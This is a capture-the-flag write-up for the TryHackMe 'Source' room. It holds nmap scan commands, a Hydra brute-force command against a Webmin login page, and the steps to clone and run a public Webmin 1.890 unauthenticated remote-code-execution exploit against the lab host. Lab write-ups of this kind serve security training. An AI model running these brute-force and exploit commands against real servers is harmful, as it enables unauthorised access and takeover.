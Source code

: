 # source

**Room Link:** [https://tryhackme.com/room/source](https://tryhackme.com/room/source)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/10000 - HTTP

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Tried to bruteforce the admin password but it blocked my IP after so many attempts, this is clearly not the intended route.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -S -l admin -s 10000 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ip-10-10-221-100.eu-west-1.compute.internal http-post-form "/session_login.cgi:user=^USER^&pass=^PASS^:F=Warning!" -V
```





**Kali**

```
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git
cd WebMin-1.890-Exploit-unauthorized-RCE/
python webmin-1.890_exploit.py  ip-10-10-221-100.eu-west-1.compute.internal 10000 id
```

<figure><img src="../../.gitbook/assets/image (14) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

I tried to get a full shell but nothing worked, there was a metasploit exploit which I could do for that but I didn't want to.


















































